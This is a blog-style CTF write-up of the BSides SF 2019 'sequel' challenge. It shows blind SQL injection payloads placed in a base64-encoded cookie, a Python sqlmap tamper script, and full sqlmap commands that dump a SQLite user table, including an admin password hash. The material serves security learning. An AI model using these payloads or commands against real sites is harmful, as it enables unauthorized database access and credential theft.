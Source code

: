 ```yaml
---
layout: post
current: post
cover: assets/images/sqlmap.png
navigation: True
title: "Dumping tables using sqlmap;--"
date: 2019-03-27 14:19:51 +0530
tags: sqli sqlmap web security ctf
class: post-template
subclass: post
toc: True
disqus: True
author: rnehra01
---
```

This post will try to show a small portion of power that sqlmap possess.
### sequel
This is a web challenge from BSides SF CTF 2019. The home page shows a login form. After logging using `guest` account, I am presented with a list of movies with their ratings and a private note for each. The private note corresponding to Hackers movie has some reference to admin, so I guess I need to log in as admin. SQLi on the login form doesn't work. But there is a `1337_AUTH` cookie which on base64 decoding gives `{"username":"guest","password":"guest"}`. Cool, lets try SQLi here and making `username` to `guest" and "1"="1` results in successful login while `guest" and "1"="2` shows `Invalid user`, so it's a blind injection. Doing some recon using my [web-cheats](https://github.com/rnehra01/web-cheats/blob/master/sqli.md#for-sqlite), I am able to recognise that the backend database is SQLite as the sqlite specific payload `guest" and EXISTS(select sqlite_version) and "1"="1` works. So the task is to pull entries related to admin from the database. I have previously written a [script](https://github.com/InfoSecIITR/write-ups/blob/master/2016/SharifCTF-2016/web-200/web-200.py) to extract data but I have heard a lot about [sqlmap](http://sqlmap.org/) but haven't used it yet. So lets give it a go and also writing that script took me a long time.

### Time to use the big guns
Lets start by finding the tables present in the database which comes down to this
<pre>
./sqlmap.py -u "http://localhost:8081/sequels" --cookie="*" --technique=B --tamper tamper.py
--tables --code=200 --dbms=SQLite --risk=3 --level=3  --flush-session --hex
</pre>
In our case the payload is base64 encoded and then injected into cookie parameter so I used the `--tamper` switch with tamper.py which replaces `"` with `\"` in the payload from sqlmap and then return base64 encoded cookie which repalces `*` in the `cookies`.
{% highlight python %}
from base64 import urlsafe_b64encode as be

def tamper(payload, **kwargs):
    data = '{"username":"guest%s","password":"guest"}' % payload.replace('"','\\\"')
    return "1337_AUTH=%s" % be(data)
{% endhighlight %}
The above command returns
<pre>
[3 tables]
+----------+
| notes    |
| reviews  |
| userinfo |
+----------+
</pre>
So the admin info will be present in the `userinfo` table. Lets dump it
{% highlight terminal %}
rnehra@pc ~/1/sqlmap> ./sqlmap.py -u "http://localhost:8081/sequels" --cookie="*" --technique=B --tamper tamper.py --dump --code=200 --dbms=SQLite --risk=3 --level=3 --hex -T userinfo

[15:59:59] [INFO] retrieved: CREATE TABLE userinfo (    username text not null primary key,    password text not null)
Table: userinfo
[2 entries]
+-----------+-----------+
| tusername | tpassword |
+-----------+-----------+
|  blank    |  blank    |
|  blank    |  blank    |
+-----------+-----------+
{% endhighlight %}
__WTF__, the column names look strange.
### Bug in sqlmap 
Okay, the table syntax `CREATE TABLE userinfo (    username text not null primary key,    password text not null)` looks good, I guess there is `\t` character before column name and that's how sqlmap assume `tusername` as column name instead of `username`. Cool, I find a bug in sqlmap. Next thing, I report it on [Github](https://github.com/sqlmapproject/sqlmap/issues/3551) and they are super quick to push a fix.

### Continue hacking
So I override the column names for the table using `-C` switch and the complete table is here
{% highlight terminal %}
rnehra@pc ~/1/sqlmap> ./sqlmap.py -u "http://localhost:8081/sequels" --cookie="*" --technique=B --tamper tamper.py --dump --code=200 --dbms=SQLite --risk=3 --level=3 --hex -T userinfo -C username,password
...
Table: userinfo
[2 entries]
+-------------+----------------------------------+
| username    | password                         |
+-------------+----------------------------------+
| guest       | guest                            |
| sequeladmin | f5ec3af19f0d3679e7d5a148f4ac323d |
+-------------+----------------------------------+
{% endhighlight %}
Logging into the account of `sequeladmin` gives the flag.

### Conclusion
1. Sqlmap can help in avoiding writing scripts, thus exploiting much faster.
2. Instead of blindly running sqlmap against a target, try to do some recon and feed as much data you can to sqlmap. In my case, I provide
   * correct injection point `--cookie="*"`
   * type of DBMS `--dbms=SQLite`
   * how SQLi can be exploited `--technique=B` which is blind SQLi.
3. In Blind SQLi, try to provide method to differentiate between a  __True__ and __False__ query, in my case __Invalid user__ is accompanied with status code __404__ and successful login with __200__, hence the `--code=200`.
